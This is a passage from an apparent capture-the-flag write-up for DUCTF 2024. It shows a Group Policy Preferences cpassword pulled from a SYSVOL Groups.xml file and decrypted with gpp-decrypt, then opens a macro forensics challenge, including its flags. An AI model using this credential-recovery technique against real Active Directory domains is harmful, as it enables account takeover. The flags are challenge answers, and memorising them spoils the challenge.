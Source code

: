 Since the challenge was something related to "bad policies", we can look into Group Policy Preferences (GPP). Group Policies for account management are stored on the DC in `Groups.xml` files buried in the SYSVOL folder. 

```
└─$ cat ./rebels.ductf/Policies/\{B6EF39A3-E84F-4C1D-A032-00F042BE99B5\}/Machine/Preferences/Groups/Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Backup" image="2" changed="2024-06-12 14:26:50" uid="{CE475804-94EA-4C12-8B2E-2B3FFF1A05C4}"><Properties action="U" newName="" fullName="" description="" cpassword="B+iL/dnbBHSlVf66R8HOuAiGHAtFOVLZwXu0FYf+jQ6553UUgGNwSZucgdz98klzBuFqKtTpO1bRZIsrF8b4Hu5n6KccA7SBWlbLBWnLXAkPquHFwdC70HXBcRlz38q2" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="Backup"/></User>
</Groups>
```

The value of the `cpassword` field is encrypted with AES using a 32-bit key. However, the key utilized is statically AND publicly available in a Microsoft [documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN). Hence, we can just use the [gpp-decrypt](https://www.kali.org/tools/gpp-decrypt/) tool to automatically decrypt the password.

```
└─$ gpp-decrypt "B+iL/dnbBHSlVf66R8HOuAiGHAtFOVLZwXu0FYf+jQ6553UUgGNwSZucgdz98klzBuFqKtTpO1bRZIsrF8b4Hu5n6KccA7SBWlbLBWnLXAkPquHFwdC70HXBcRlz38q2"
DUCTF{D0n7_Us3_P4s5w0rds_1n_Gr0up_P0l1cy}
```

## Macro Magic [Forensics]
Question: We managed to pull this excel spreadsheet artifact from one of our Outpost machines. Its got something sus happening under the hood. After opening we found and captured some suspicious traffic on our network. Can you find out what this traffic is and find the flag! Note: You do not need to run or enable the macro so solve.

Flag: `DUCTF{M4d3_W1th_AI_by_M0nk3ys}`

We are given a PCAP and XLSM file to investigate. Analyzing the PCAP first, there seems to be several HTTP requests made to random URLs. However, some of them seem to be hex values or some sorts.

![http](/assets/posts/ductf2024/http.png)
